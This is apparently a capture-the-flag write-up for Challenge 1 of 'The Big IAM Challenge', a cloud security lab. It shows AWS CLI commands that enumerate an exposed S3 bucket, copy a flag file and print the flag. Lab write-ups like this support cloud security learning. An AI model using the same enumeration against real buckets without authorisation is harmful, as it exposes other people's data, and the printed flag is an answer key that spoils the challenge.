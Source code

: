 # Challenge 1

https://bigiamchallenge.com/challenge/1

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/57ff9010-8846-455b-a1e0-21859246e2b4)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/13756273-e84c-4508-8b06-3caa3689e706)

```sh
> aws sts get-caller-identity
{
    "UserId": "AROAZSFITKRSYE6ELQP2Q:iam_shell",
    "Account": "657483584613",
    "Arn": "arn:aws:sts::657483584613:assumed-role/shell_basic_iam/iam_shell"
}
> aws s3 ls thebigiamchallenge-storage-9979f4b
                           PRE files/
> aws s3 ls thebigiamchallenge-storage-9979f4b/files/
2023-06-05 19:13:53         37 flag1.txt
2023-06-08 19:18:24      81889 logo.png
> aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt /tmp/flag1.txt
Completed 37 Bytes/37 Bytes (556 Bytes/s) with 1 file(s) remainingdownload: s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt to ../../tmp/flag1.txt
> cat /tmp/flag1.txt
{wiz:exposed-storage-risky-as-usual}

```
